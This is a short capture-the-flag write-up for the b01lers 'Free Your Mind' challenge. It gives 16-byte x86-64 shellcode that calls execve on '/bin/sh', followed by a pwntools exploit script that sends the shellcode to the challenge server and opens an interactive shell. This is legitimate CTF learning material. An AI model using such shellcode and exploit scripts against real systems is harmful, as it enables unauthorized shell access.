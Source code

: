 ### Free Your Mind (200 Points)

> Next up, hack the matrix again, but this time, insert your own code.
>
> [attachment]()

This challenge provide the "/bin/sh" in stack top and limit the input length is 16. so I write the shellcode like this:

```asm
push 0
pop rsi
push 0
pop rdx
push 0x3b
pop rax
lea rdi,[rsp+8]
syscall
```

#### exploit script

```python
from pwn import *
context.arch = 'amd64'

payload = asm("push 0; pop rsi; push 0; pop rdx; push 0x3b; pop rax; lea rdi,[rsp+8]; syscall")
print len(payload) # 16

#p = process('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d')
p = remote('chal.ctf.b01lers.com',1007)
p.recvuntil('walk through it.\n')

# gdb.attach(p)
p.sendline(payload)

p.interactive()
```

